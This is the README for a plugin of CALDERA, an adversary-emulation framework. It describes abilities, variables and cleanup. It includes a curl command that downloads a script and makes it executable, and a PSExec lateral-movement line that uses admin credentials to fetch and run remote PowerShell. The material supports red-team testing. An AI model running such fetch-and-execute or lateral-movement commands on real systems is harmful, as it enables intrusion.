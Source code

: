 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* A filestore
* A basic planner (sequential) which runs all abilities on an adversary against all hosts in a group

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots.

## Abilities

Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  command: |
    curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
    chmod +x /tmp/wifi.sh
  cleanup:
    rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. A snippet of what this may look like (for PSExec) would be
```
psexec \\127.0.0.1 -u administrator -p password123 Powershell.exe iex (irm -Method Post -Headers @{'file'='54ndc47.ps1'}  #{server}/file/render?group=#{group})
```

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the filestore directory of every plugin when called.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written. Cleanup actions will occur in reverse order
of the abilities that ran.

## Adversaries

New adversaries can be added to the adversaries.yml file.


